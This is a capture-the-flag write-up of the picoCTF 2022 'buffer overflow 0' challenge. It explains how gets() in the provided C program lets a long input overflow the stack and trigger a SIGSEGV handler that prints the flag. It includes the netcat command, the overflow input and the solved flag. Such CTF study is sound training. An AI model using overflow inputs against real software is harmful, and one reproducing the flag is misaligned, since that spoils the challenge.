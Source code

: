 #pico2022 #binaryexploitation 

## Challenge:
```md
Smash the stack Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/520/vuln). You can view source [here](https://artifacts.picoctf.net/c/520/vuln.c). And connect with it using: `nc saturn.picoctf.net 53935`
```

## Process:
First step was to ```wget``` the program and source.
```bash
wget -q https://artifacts.picoctf.net/c/520/vuln # Program
wget -q https://artifacts.picoctf.net/c/520/vuln.c # Source
```
#wget 

Then I ran the given *netcat* command.
```bash
nc saturn.picoctf.net 53935
```
#netcat  #nc 

Then I made the given *vuln* program executable.
```bash
chmod +x vuln
```
#chmod

Running the *vuln* program resulted in:
	Please create 'flag.txt' in this directory with your own debugging flag.Please create 'flag.txt' in this directory with your own debugging flag.

After this I decided to take a look at the *vuln.c* file.

Within this file I noticed how the flag would be printed. It's handled in a **sigsegv_handler()** function. 

```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);a
  exit(1);
}

...

signal(SIGSEGV, sigsegv_handler);
```
#c

SIGSEGV stands for *segmentation fault*. A segmentation fault is an error raised by memory-protected hardware whenever it tries to access a memory address that is either restricted or does not exist.
#segmentationfault

On line 40 of the c file the **gets()** function is called.
```c
gets(buf1)
```
#c 

This reads the *buf1*, the user's input, onto the stack. The **gets()** function will write the user's input to the stack without regard for its allocated length. The user  can then overflow the length resulting in a segmentation fault.

So I ran...
```shell
nc saturn.picoctf.net 53935
Input: aaaaaaaaaaaaaaaaaaaaaaaaaaa
```
#netcat #nc

Which resulted in the flag being given.

**Flag: *picoCTF{ov3rfl0ws_ar3nt_that_bad_a065d5d9}***